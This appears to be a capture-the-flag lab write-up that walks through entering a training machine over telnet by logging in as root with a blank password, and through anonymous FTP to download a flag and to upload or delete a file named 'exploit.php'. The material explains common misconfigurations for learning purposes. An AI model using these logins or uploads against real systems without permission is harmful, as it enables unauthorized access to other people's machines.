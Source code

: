 ## Challenges

### telnet(port 23/tcp Linux telnetd)

Telnet is an old service used for remote management of other hosts on the network. Usually, connection requests through telnet are configured with username/password combinations for increased security.

> Note: Due to configuration mistakes, some important accounts can be left with blank passwords for the sake of accessibility. Some typical important accounts have self-explanatory names, such as: `admin`, `administrator` and `root` leaving open to simple brute-forcing attacks.

```bash
$ telnet {target-ip-addr}

Meow login: root

cat flag.txt
```

### FTP(port 21/tcp vsftpd 3.0.3)

File transfer services that may have high chances to be poorly configured, it can be easily misconfigured if not correctly understood. For secure transmission that protects the username and password and encrypts the content, FTP is often secured with SSL/TLS (FTPS) or replaced with SSH File Transfer Protocol (SFTP).

> Note: FTP users may authenticate themselves with a clear-text sign-in protocol, generally in the form of a username and password. A typical misconfiguration for running FTP services allows the `anonymous` username, followed by any password whatsoever since the service will disregard the password for this specific account.

```bash
$ ftp {target-ip-addr}
Name: anonymous
331 Please specify the password.
Password: anon123
ftp> ls
200 : PORT command successful. Consider using PASV.
150 : Here comes the directory listing.

226 : Directory send OK.

> get flag.txt # Download the file to the same directory.
226 : Transfer complete.

> bye
421 Timeout
```

```bash
# Other options: Make sure from are in right path where the file exists.
> put exploit.php # Upload a file

> mdelete exploit.php # Delete a file
```
